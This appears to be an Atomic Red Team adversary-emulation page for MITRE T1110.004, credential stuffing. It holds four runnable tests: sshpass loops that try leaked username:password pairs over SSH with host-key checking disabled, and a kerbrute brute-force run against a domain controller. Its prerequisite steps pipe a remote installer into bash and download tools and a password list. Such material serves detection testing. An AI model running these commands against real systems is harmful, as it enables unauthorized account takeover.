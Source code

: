 ```yaml
---
tags: [T1110_004, atomic_test]
filename: "[[T1110.004 - Brute Force- Credential Stuffing]]"
---
```

# T1110.004 - Brute Force: Credential Stuffing

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux


**auto_generated_guid:** 4f08197a-2a8a-472d-9589-cd2895ef22ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | string | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp "$PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt" /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** macOS


**auto_generated_guid:** d546a3d9-0be5-40c7-ad82-5a7d79e1b66b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | string | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp "$PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt" /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/e8114640740938c20cc41ffdbf07816b428afc49/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
<br/>

## Atomic Test #3 - SSH Credential Stuffing From FreeBSD
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux


**auto_generated_guid:** a790d50e-7ebf-48de-8daa-d9367e0911d4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | string | localhost|


#### Attack Commands: Run with `sh`! 


```sh
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `sh`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```sh
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
pkg install -y sshpass
```




<br/>
<br/>

## Atomic Test #4 - Brute Force:Credential Stuffing using Kerbrute Tool
Will read username and password combos from a file or stdin (format username:password) and perform a bruteforce attack

**Supported Platforms:** Windows


**auto_generated_guid:** 4852c630-87a9-409b-bb5e-5dc12c9ebcde





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain|
| domain | Domain where you will be testing | string | $ENV:userdomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe bruteforce --dc #{domaincontroller} -d #{domain} "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"
```




#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```
##### Description: bruteforce.txt must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.004/src/bruteforce.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"
```




<br/>
